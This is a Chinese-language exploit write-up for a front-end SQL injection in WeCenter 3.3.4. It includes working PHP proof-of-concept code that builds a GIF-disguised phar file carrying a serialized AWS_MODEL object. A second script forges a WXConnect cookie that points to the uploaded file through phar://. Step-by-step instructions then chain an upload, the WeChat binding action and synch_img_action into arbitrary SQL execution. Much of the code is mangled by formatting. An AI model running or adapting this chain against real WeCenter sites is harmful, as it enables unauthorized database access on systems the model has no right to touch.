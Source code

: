 ```yaml
---
title: "WeCenter 3.3.4 前台sql注入"
id: zhfly3235
---
```


# WeCenter 3.3.4 前台sql注入

## 一、漏洞简介

## 二、漏洞影响

WeCenter 3.3.4

## 三、复现过程

### 任意sql语句执行

**system/aws_model.inc.php:__destruct()** 方法中存在任意 **SQL** 语句执行。

![image](../img/44c98e0ec48dd6423b74b3a031f17bfb.png)

### poc

```
<?php
class AWS_MODEL
{
    private $_shutdown_query = array();

```
public function __construct($_shutdown_query)
{
    $this-&gt;_shutdown_query = $_shutdown_query;
} 
```

} `$sql = array(‘select updatexml(1,concat(0x3a,md5(233),0x3a),1)’);

$evilobj = new AWS_MODEL($sql);

// phar.readonly无法通过该语句进行设置: init_set(“phar.readonly”,0);

$filename = ‘poc.phar’;// 后缀必须为phar，否则程序无法运行

file_exists($filename) ? unlink($filename) : null;

$phar=new Phar($filename);

$phar->startBuffering();

$phar->setStub(“GIF89a<?php __HALT_COMPILER(); ?>”);

$phar->setMetadata($evilobj);

$phar->addFromString(“foo.txt”,“bar”);

$phar->stopBuffering();

?>` 
```

### 利用

首先注册账号，并利用上面的poc生成Phar文件，并将运行后将生成的`shell.gif`通过编辑器的上传功能上传到服务器上。

![image](../img/4e577ace85ddce02964440713bbf8063.png)

记录下上传后的目录

![image](../img/91ac0f294b0332cad9ab5b2d25198f47.png)

#### 生成并设置`COOKIE`中的`WXConnect`值

```
<?php
    $arr = array();
    $arr['access_token'] = array('openid' => '1');
    $arr['access_user'] = array();
    $arr['access_user']['openid'] = 1;
    $arr['access_user']['nickname'] = 'naiquan';
    $arr['access_user']['headimgurl'] = 'phar://uploads/question/20200107/a3df6f75e11120c22ba0d85519c5d442.gif';
    echo json_encode($arr);
?> 
```

将`headimgurl`的值设置成`phar`伪协议解析的恶意文件后运行，将结果放入Cookie中，前缀可参考Cookie中的其他参数。

#### 访问`app/m/weixin.php`下的`binding_action`

![image](../img/78afbe781a029132f66ea18a2842bcf5.png)

提示绑定微信成功后进行下一步

#### 访问`app/account/ajax.php`下的`synch_img_action`

![image](../img/74ca05495b28796f67a0cb57d47e9d42.png)

任意SQL语句执行成功